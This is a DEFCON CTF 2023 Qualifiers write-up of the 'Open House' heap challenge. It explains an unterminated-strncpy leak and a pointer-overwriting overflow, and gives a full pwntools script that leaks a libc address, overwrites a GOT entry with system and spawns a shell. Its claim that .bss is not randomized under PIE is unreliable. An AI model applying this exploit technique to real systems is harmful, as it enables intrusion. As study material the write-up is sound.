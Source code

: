 # Open House (DEFCON CTF 2023 Qualifiers)

Description
```
You are cordially invited to an exclusive Open House event, where dreams meet reality and possibilities abound.
Join us for an unforgettable experience as we showcase a captivating array of properties, each waiting to become your dream home.

Host: open-house-6dvpeatmylgze.shellweplayaga.me
Port: 10001
```
Category - Quals  
Points - 64  

This is the easiest binary challenge in DEFCON CTF 2023 Quals. I worked hard on this one but didn't get it.
I found that there is heap overflow due to the modify function, and we can use it to overwrite the GOT table, but didn't know how.

## Warning

The solution here is not a complete solution since I'm running the program on my own machine, instead of attacking a remote host.

## Analysis

The program shows reviews and allows us to create (c), delete (d), modify (m), or view (v) the entries.
By default there are 10 reviews. We can type q to quit.

```
Welcome! Step right in and discover our hidden gem! You'll *love* the pool.
c|v|q> c
Absolutely, we'd love to have your review!
test
Thanks!
c|v|m|d|q> v
Check out these recent rave reviews from other prospective homebuyers:
**** - This charming and cozy house exudes a delightful charm that will make you feel right at home. Its warm and inviting ambiance creates a comforting haven to retreat to after a long day's hard work.
**** - Don't let its unassuming exterior fool you; this house is a hidden gem. With its affordable price tag, it presents an excellent opportunity for first-time homebuyers or those seeking a strong investment.
**** - Step into this well-maintained house, and you'll find a tranquil retreat awaiting you. From its tidy interior to the carefully tended garden, every corner of this home reflects the care and attention bestowed upon it.
**** - Situated in a prime location, this house offers unparalleled convenience. Enjoy easy access to schools, shops, and public transportation, making everyday tasks a breeze.
**** - Although not extravagant, this house offers a blank canvas for your creativity and personal touch. Imagine the endless possibilities of transforming this cozy abode into your dream home, perfectly tailored to your taste and style.
**** - Discover the subtle surprises that this house holds. From a charming reading nook tucked away by the window to a tranquil backyard oasis, this home is full of delightful features that will bring joy to your everyday life.
**** - Embrace a strong sense of community in this neighborhood, where friendly neighbors become extended family. Forge lasting friendships and create a sense of belonging in this warm and welcoming environment.
**** - With its well-kept condition, this house minimizes the hassle of maintenance, allowing you to spend more time doing the things you love. Move in with peace of mind, knowing that this home has been diligently cared for.
**** - Whether you're looking to expand your investment portfolio or start your real estate journey, this house presents a fantastic opportunity. Its affordability and potential for future value appreciation make it a smart choice for savvy buyers.
**** - Escape the hustle and bustle of everyday life and find solace in the tranquility of this home. Its peaceful ambiance and comfortable layout provide a sanctuary where you can relax, recharge, and create beautiful memories with loved ones.
**** - test

c|v|m|d|q> q
Thanks for stopping by!
```

The reviews are stored in the heap, as a doubly-linked list. Each review has a body with a length of 0x200, with two pointers following
(first one is forward pointer, pointing to the next entry, second one is the back pointer, pointing to the last), so the total length is 0x208.

I found two vulnerabilities. First, the strncpy function is used to create review entries.
But if the string to be loaded is too large, the string loaded into memory will not be null terminated.
Second, the modify function allows us to modify up to a length of 0x210, meaning that we can easily overwrite the pointers.

## Solution

I come up with the solution below only after reading the answers by the others, so I would like to give credit to them here:
https://robbert1978.github.io/posts/OpenHouse-DEFCON-Quals-2023/  
https://scavengersecurity.com/posts/defconquals-openhouse/

If we create an overflowed entry, the body of the review will not be null terminated, so when we view it, we can read beyond the body,
and see the pointers. This leaks the address in the heap.
However, the program enabled PIE, so address in the heap is randomized.
Nevertheless, there is a hidden 0th entry, which resides in the .bss segment instead of heap.
By deleting all entries and create an overflowed entry, we can read the bk pointer pointing to the 0th entry (in .bss).

The .bss segment is not randomized, like most of the memories space. (PIE only randomized certain segments, such as the heap)
Therefore, we can calculate the address of the GOT table.
The GOT table (Global Offset Table) contains pointers to libc functions.
We can read it by first modifying the 1st entry's forward pointer, then when the program tries to read the 2nd entry,
it will find the 2nd entry through the 1st entry's forward pointer, and land at wherever we want.
Similarly we can modify any memory, but modifying the 1st entry's forward pointer and then modifying the 2nd entry (which is any memory we like).

Therefore, we can read the address of an libc function in the GOT table, calculate the address of system() in libc,
then find a suitable libc function to be replaced by system().
The address of system() can always be calculated if you know the libc version and the address of any libc function.
The libc version can also be deduced by the address of one, or some, libc functions, using libc databases like https://libc.blukat.me/ .
To replace the function with system(), we modify the GOT entry of that function with the address of system().

Here is the python script I used to get a shell

```
from pwn import *

def create(data):
    p.sendlineafter(b"c|v",b"c",timeout=10)
    p.sendline(data)

def modify(idx,data):
    p.sendlineafter(b"c|v",b"m",timeout=10)
    p.sendline(idx)
    p.sendline(data)

def view():
    p.sendlineafter(b"c|v",b"v",timeout=10)

def delete(idx):
    p.sendlineafter(b"c|v",b"d",timeout=10)
    p.sendline(idx)

# Initialize
libc = ELF("/lib32/libc.so.6")
e = ELF("./open-house")
p = e.process()

# We have to create an entry in order to unlock all functionalities
create(b"test")

# Delete all entries
for i in range(11):
    delete(b"1")

# Create an entry with overflowing "A"s.
# Due to the behaviour of strncpy, a string without null termination is loaded into the heap.
# Then we create one more entry so that the fwd pointer of the 1st entry is not null.
# This will leak the pointers of the 1st entry when we view it.
create(b"A"*520)
create(b"something")

# We view it and read the pointers.
# The first pointer is the fwd pointer, pointing to the next entry.
# The second pointer is the bk pointer, pointing to the last entry.
# In this case, bk points to the 0th entry, which is at .bss segment.
view()
test = p.recvuntil(b"A"*512,timeout=10)
fwd = p.recv(4,timeout=10)
bk = p.recv(4,timeout=10)
print("The pointer to the 0th entry at .bss:")
print(bk)

# .bss is outside the heap, so its address is not randomized.
# We can use this address as an anchor to find the addresses of the other stuff.
# In particular, we are interested in the GOT table, where pointers to libc functions are stored.
#
# Below is some references:
# fputs@got.plt is at bk-0x10, it contains the address of fputs@libc
# strlen@got.plt is at bk-0x24, it contains the address of strlen@libc
got_fputs_addr = p32(u32(bk) - u8(b"\x10"))
got_strlen_addr = p32(u32(bk) - u8(b"\x24"))
print("The calculated address of fputs@got.plt:")
print(got_fputs_addr)
print("The calculated address of strlen@got.plt:")
print(got_strlen_addr)

# Modify the fwd pointer of the 1st entry, and point it to fputs@got.plt, so that we can read its content
modify(b"1",b"B"*512+got_fputs_addr+b"\x00"*4)

# View the entries and read the pointer (address) to fputs@libc
view()
p.recvuntil(b"B"*512,timeout=10)
p.recvline(timeout=10)  #leakage of the address you put in
p.recvuntil(b"**** - ",timeout=10)
libc_leak = p.recv(4,timeout=10) #the address of fputs@libc
print("The leaked address of fputs@libc:")
print(libc_leak)

# Calculate the address of system@libc, which will allow us to spawn a terminal.
# Here we know the version of libc so we don't need to search for the libc version.
system_addr = p32(u32(libc_leak) - libc.sym.fputs + libc.sym.system)
print("The calculated address of system@libc:")
print(system_addr)

# Modify the fwd pointer of the 1st entry to strlen@got.plt,
# and then modify the 2nd entry (now it's strlen@got.plt) to system@libc, so that strlen@got.plt points to system@libc.
# Lastly, create a new entry with "/bin/sh" as the content, to trigger strlen("/bin/sh"), which now becomes system("/bin/sh")
modify(b"1",b"B"*512+got_strlen_addr+b"\x00"*4)
modify(b"2",system_addr)
create(b"/bin/sh")

# Enjoy!
p.interactive()
```

![](hack.png)

Note that the code only works locally, because I'm working on it after the end of the competition.
According to the references, however, the libc version of the remote host is probably not found in many libc databases.
So the solution here is considerably easier than what is needed actually if you are unable to figure out the libc version.

Final notes:  
I didn't make it clear how to find the address of the GOT or of system().
To put it simple, you can get the memory map and find the GOT address by debugging the program with gdb.
The offsets works even in a remote host, because they're fixed (but not for the heap becuz of randomization).
To find system() address, we need to know the libc version first.
The offsets to a particular function is fixed for a given libc version.
So if you know the libc version and address to any one function, you know the address of system() relative to the function.
